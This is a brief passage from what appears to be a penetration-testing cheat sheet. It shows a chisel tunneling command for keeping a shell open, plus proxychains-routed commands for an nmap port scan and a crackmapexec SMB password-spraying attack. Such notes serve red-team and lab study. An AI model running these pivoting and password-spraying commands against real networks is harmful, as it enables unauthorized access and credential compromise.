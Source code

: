 For an specific port:
```
chisel client --max-retry-count 3 SERVER_IP:SERVER_LPORT RED_LPORT:IP:RED_PORT
```
NOTE: I prefer using `--max-retry-count` with 3 because it will release after some retries and you don't lose your shell.

### Some Commands with proxychains

nmap:
```
proxychains nmap -vvv -sT --top-ports=20 -Pn $remote_ip
```

Password spraying:
```
proxychains crackmapexec smb $remote_ip -u users.list -p 'password123!' -d domain.com --continue-on-success
```
